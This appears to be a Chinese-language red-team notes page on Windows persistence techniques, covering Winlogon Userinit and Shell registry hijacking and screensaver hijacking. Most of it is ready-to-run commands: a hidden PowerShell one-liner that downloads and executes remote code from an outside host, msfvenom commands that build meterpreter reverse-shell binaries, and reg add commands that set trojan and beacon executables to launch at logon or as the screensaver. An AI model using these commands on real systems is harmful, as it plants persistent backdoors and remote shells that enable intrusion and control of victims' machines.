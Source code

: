   #### 登录初始化
	计算机\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon下添加Userinit值
	>Powershell.exe Set-ItemProperty "HKLM:\SOFTWARE\Microsoft\WINDOWS NT\CurrentVersion\Winlogon" -name Userinit -value "C:\Windows\system32\userinit.exe,c:\muma.exe"
	计算机\HKEY_CURRENT_USER\Environment
	创建键值UserInitMprLogonScript值为c:\muma.exe
	&
	Powershell实现：
	>Set-ExecutionPolicy RemoteSigned 
	保存ps1执行
	Set-ItemProperty "HKLM:\SOFTWARE\Microsoft\WINDOWS NT\CurrentVersion\Winlogon" -name Userinit -value "C:\Windows\system32\userinit.exe,powershell.exe -nop -w hidden -c $w=new-object net.webclient;$w.proxy=[Net.WebRequest]::GetSystemWebProxy();$w.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $w.downloadstring('http://192.168.2.11:8080/kaMhC1');"
	# powershell反弹shell的payload参照msf中的web_delivery模块

	>msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe > evilbinary.exe
	>msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f dll > evilbinary.dll

	>reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "Userinit.exe, evilbinary.exe" /f
	>reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell /d "explorer.exe, evilbinary.exe" /f
	>Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Userinit" "Userinit.exe, evilbinary.exe" -Force
	>Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Shell" "explorer.exe, evilbinary.exe" -Force
  #### 屏幕保护程序
	计算机\HKEY_CURRENT_USER\Control Panel\Desktop
	SCRNSAVE.EXE - 默认屏幕保护程序，改为恶意程序(设置备份)
	ScreenSaveActive - 1表示屏幕保护是启动状态，0表示表示屏幕保护是关闭状态
	ScreenSaverTimeout - 指定屏幕保护程序启动前系统的空闲事件，单位为秒，默认为900（15分钟）

	>reg add "hkcu\control panel\desktop" /v SCRNSAVE.EXE /d C:\Users\hunter\Desktop\beacon.exe /f
	>reg add "hkcu\control panel\desktop" /v ScreenSaveActive /d 1 /f
	>reg add "hkcu\control panel\desktop" /v ScreenSaverIsSecure /d 0 /f
	>reg add "hkcu\control panel\desktop" /v ScreenSaveTimeOut /d 60 /f